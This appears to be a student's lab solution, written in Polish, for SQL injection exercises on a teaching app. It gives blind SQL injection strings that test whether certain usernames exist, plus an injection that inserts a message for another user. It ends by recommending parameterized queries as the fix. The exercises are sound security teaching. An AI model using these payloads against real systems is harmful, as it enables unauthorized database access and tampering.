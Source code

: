 ## Z1
Zastosuj BlindSQL Injection żeby sprawdzić czy w bazie danych znajduje się użytkownik: bach, admin, root, john;
```sql
bob' AND EXISTS ( SELECT username FROM user WHERE username = 'bach') AND '' = '
bob' AND EXISTS ( SELECT username FROM user WHERE username = 'admin') AND '' = '
bob' AND EXISTS ( SELECT username FROM user WHERE username = 'root') AND '' = '
bob' AND EXISTS ( SELECT username FROM user WHERE username = 'john') AND '' = '
```
## Z2
Zastosuj SQL Injection żeby wstrzyknąć użytkownikowi adam wiadomość;
```sql
') ,('adam', 'tajemnicza wiadomosc tajemniczego don pedro z krainy deszczowcow
```
## Z3
Zaproponuj modyfikację kodu hello.py tak, aby aplikacja nie była podatna na SQL Injection (przetestuj swoje zmiany)

Użyć sparametryzowanych zapytać albo sanityzować input. To drugie jest ciutkę gorsze ze względu na fakt tego, że zmieniamy input nadany przez użytkownika. W rozwiązaniu pierwszym nie ma takiego problemu.